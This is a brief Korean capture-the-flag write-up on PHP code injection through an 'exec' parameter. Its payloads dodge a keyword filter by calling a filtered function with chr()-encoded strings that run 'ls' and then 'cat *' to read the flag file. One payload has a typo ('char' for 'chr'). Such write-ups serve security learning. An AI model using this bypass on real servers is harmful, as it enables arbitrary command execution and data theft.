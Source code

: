 # 개요
웹 기반 필터링을 우회해서 특정 함수 등의 코드나 외부 프로그램 실행
exec 변수로 php code injection 공격 수행

# exploit
1. $filter 배열에 있는걸 그대로 사용해도 됨
> ?exec=$filter[0](char(108).chr(115)); = system(ls)
>> php 에서는 문자열 합치는걸 . 를 사용함
2. 이 때 나오는 flag 파일을 그대로 실행해도 되고 아니면 cat으로 실행
> ?exec=$filter[0](chr(99).chr(97).chr(116).chr(32).chr(42));